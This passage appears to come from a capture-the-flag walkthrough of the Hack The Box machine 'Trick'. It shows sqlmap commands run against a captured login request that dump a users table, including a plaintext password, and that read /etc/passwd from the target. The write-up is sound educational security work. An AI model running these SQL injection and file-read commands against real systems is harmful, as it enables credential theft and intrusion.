 ```sh
Table: users
[8 columns]
+-----------+--------------+
| Column    | Type         |
+-----------+--------------+
| address   | text         |
| contact   | text         |
| doctor_id | int(30)      |
| id        | int(30)      |
| name      | varchar(200) |
| password  | varchar(200) |
| type      | tinyint(1)   |
| username  | varchar(100) |
+-----------+--------------+
[*] ending @ 17:37:41 /2022-07-05/

┌──(root㉿kali)-[~/htb/trick]
└─# sqlmap -r trick-login.req --dump -D payroll_db -T users -C username,password --batch
[*] starting @ 17:39:27 /2022-07-05/
Database: payroll_db
Table: users
[1 entry]
+------------+-----------------------+
| username   | password              |
+------------+-----------------------+
| Enemigosss | SuperGucciRainbowCake |
+------------+-----------------------+
[*] ending @ 17:41:28 /2022-07-05/
```

We can also download files using SQLMap:

```sh
┌──(root㉿kali)-[~/htb/trick]
└─# sqlmap -r trick-login.req --file-read "/etc/passwd" --batch
[*] starting @ 21:58:05 /2022-07-06/
<SNIP>
[21:58:05] [INFO] fetching file: '/etc/passwd'
726F6F743A783A303A303A726F6F743A2F726F6F743A2F62696E2
F626173680A6461656D6F6E3A783A313A313A6461656D6F6E3A2F
7573722F7362696E3A2F7573722F7362696E2F6E6F6C6F67696E0
<SNIP>
```

It takes a long time but eventually we get the file:

```sh
┌──(root㉿kali)-[~/htb/trick]
└─# cat /root/.local/share/sqlmap/output/preprod-payroll.trick.htb/files/_etc_passwd | grep bash
root:x:0:0:root:/root:/bin/bash
michael:x:1001:1001::/home/michael:/bin/bash
```

We can also guess the path to the website files and grab index.php:
